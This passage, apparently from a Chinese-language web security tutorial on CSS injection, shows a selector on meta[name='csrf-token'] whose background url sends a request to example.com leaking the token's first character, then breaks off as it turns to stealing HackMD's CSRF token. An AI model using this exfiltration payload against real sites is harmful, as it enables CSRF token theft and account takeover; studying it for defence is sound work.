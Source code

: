 ``` css
head, meta {
  display: block;  
}

meta[name="csrf-token"][content^="a"] {
  background: url(https://example.com?q=a);
}
```

照上面這樣寫，就會看到瀏覽器發出 request。不過，畫面上倒是沒有顯示任何東西，因為畢竟 `content` 是一個屬性，而不是 HTML 的 text node，所以不會顯示在畫面上，但是 `meta` 這個元素本身其實是看得到的，這也是為什麼 request 會發出去：

![meta style](pics/17-03.png)

如果真的想要在畫面上顯示 content 的話，其實也做得到，可以利用偽元素搭配 `attr`：

``` css
meta:before {
    content: attr(content);
}
```

就會看到 meta 裡面的內容顯示在畫面上了。

最後，讓我們來看一個實際案例。

## 偷 HackMD 的資料

HackMD 的 CSRF token 放在兩個地方，一個是 hidden input，另一個是 meta，內容如下：
